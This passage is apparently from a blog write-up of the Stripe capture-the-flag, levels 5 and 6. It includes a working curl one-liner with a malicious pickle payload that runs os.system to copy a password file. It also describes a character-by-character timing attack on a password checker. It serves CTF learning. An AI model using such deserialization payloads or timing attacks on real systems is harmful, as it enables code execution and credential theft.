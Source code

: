 After we have this, we have to generate our pickled data:

{{< highlight python >}}
x = pickle.dumps(Job())
{{< /highlight >}}

And then urlencode it, since our web server will helpfully urldecode() it for us.

{{< highlight python >}}
print urllib.quote(x)
{{< /highlight >}}

Finally, we need to generate some data that will bypass the regex. Our final one-line command is:

{{< highlight shell >}}
    curl localhost:9020  -d "asdf; job: c__builtin__%0Aeval%0Ap0%0A%28S%27__import__%28%22os%22%29.system%28%22/bin/cat%20/home/level06/.password%20%3E%20/tmp/tmp.hSIOEi8xJ1/paswd%22%29%27%0Ap1%0Atp2%0ARp3%0A."
{{< /highlight >}}

From all this, we get: `SF2w8qU1QDj`

## Level06

The final level! And, as is benefiting a final level, it's HARD. I'll link you
to the [source code of the program][level06] - go read it, and then come back
here.

Done? OK. Here's a short description of the vulnerability. The utility will
print out a "." to stderr on each comparison iteration. Upon the first
mismatch, it will then fork(), and the child process will execl() /bin/echo to
taunt the user. There are two potential attack vectors here:

The first idea is a timing attack. A fork() will cause the iteration with the
first non-matching character to take longer than all other iterations. If we
could somehow measure the length of each iteration, we could bruteforce each
character one-at-a-time, reducing the complexity from keyspace^length passwords
to keyspace * length passwords - a significant reduction.

The second is an output order attack. If we can somehow serialize the writes to
stdout and stderr, we would see something like the following:

    Welcome to the password checker!
    .. Ha ha, your password is incorrect!
    ......

instead of

    Welcome to the password checker!
    ........
    Ha ha, your password is incorrect!

And this would then inform us that our second character is incorrect.

I tried a couple of approaches to this problem. My first thought was to use a
FIFO (see [mkfifo][mkfifo]), hook both stdout and stderr to it, and then read
one byte at a time, so that the writes would be serialized. This didn't work,
so I eventually decided to use a timing attack. My final code essentially did
this:


[ctf]: https://stripe.com/blog/capture-the-flag
[wrapup]: https://stripe.com/blog/capture-the-flag-wrap-up
[ctfcode]: https://github.com/abrody/stripe-ctf/
[aslr]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[strcpy]: http://pubs.opengroup.org/onlinepubs/009695399/functions/strcpy.html
[pickle]: http://docs.python.org/library/pickle.html
[level06]: https://github.com/abrody/stripe-ctf/blob/master/code/level06/level06.c
[mkfifo]: http://linux.die.net/man/3/mkfifo
[writeup01]: http://blog.zx2c4.com/781
[writeup02]: http://willcodeforfoo.com/2012/02/capture-the-flag/
[writeup03]: https://github.com/dividuum/stripe-ctf
[writeup04]: https://gist.github.com/michaelpetrov/1899630